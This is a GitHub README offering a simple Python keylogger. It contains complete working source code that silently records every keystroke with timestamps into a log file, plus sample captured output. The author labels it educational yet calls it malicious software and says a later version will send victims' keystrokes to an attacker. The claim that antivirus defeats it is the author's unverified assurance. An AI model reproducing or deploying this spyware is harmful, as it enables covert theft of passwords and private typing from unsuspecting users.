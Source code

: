 # Keylogger

Simple Keylogger software

![](/Images/KeyLog_Image_file.png)


### Description of the Keylogger

A keylogger is used as malicious software used to record all the keystrokes in a user in hopes of using all the information recorded in the "KeyLog.txt"(or named any kind) file, for malicious intent
This keylogger software is made to get a copy of each keystroke of a user. The keystroke format is shown as a ".txt" file formatted as (TIME/DATE:KEYSTROKE).
This software is made for educational purposes only! Use it at your discretion.

*This software won't work in an attack because the computer antivirus already has a signature for this kind of code*


This is the keylogger file and code:
- [Keylogger](https://github.com/Yasha-Santos/Keylogger/blob/main/Keylogger.py)

```
"""
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Author: Yaser Kassem

This is a simple keylogger program, this was made 
for educational purposes only!
hello
This is to show that even small code software have
great power
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
"""

# Before we start writting the code we must import the following tools in order to be able to perform our keylogigng
import pynput
import logging
from pynput.keyboard import Key, Listener

# Here you can add the directory you wish to save your log file 
log_dir = r"C:/Your/Wished/Directory"

# This log file will have all the keystrokes with the time it was typed, in the format as given below (TIME:MESSAGE)
logging.basicConfig(filename= (log_dir + r"/keyLog.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

# In this function it will take each key as a parameter, then this information will
# be logged in the "keyLog.txt"
def on_press(key):
    logging.info(str(key))

# Creating a listener instance and define the on-press method and join it
# with the main program thread
with Listener(on_press=on_press) as listener:
    listener.join()
```
*This code above contains comments on how it works, minimal explanation will be provided*

Basically what this code does is that it saves all the keystrokes of a user in a running environment, meaning that it is not a one-time use only as it uses a thread to maintain its "life", meaning that when this file is executed a user won't notice a difference but in the background, it will be using a single process to capture every possible keystrokes or combination.

This is a small example of what the keylogger will record.
- [Keylog.txt (Example file)](https://github.com/Yasha-Santos/Keylogger/blob/main/KeyLog.txt)

```
2024-03-07 20:54:38,074: 'h'
2024-03-07 20:54:38,244: 'e'
2024-03-07 20:54:38,883: 'l'
2024-03-07 20:54:39,029: 'l'
2024-03-07 20:54:39,314: 'o'
2024-03-07 20:55:06,618: Key.space
2024-03-07 20:55:06,815: 'w'
2024-03-07 20:55:07,999: 'o'
2024-03-07 20:55:08,227: 'r'
2024-03-07 20:55:09,462: 'l'
2024-03-07 20:55:09,767: 'd'
```

The keylogger can store more information in this file, as long as the user is writing this software will record every single keystroke. The file above is only an example of what the output will look like.


*This code is still being worked on, Futurely what this code will do is send all the keystrokes from the "Vulnerable user" to the "Malicious user"*
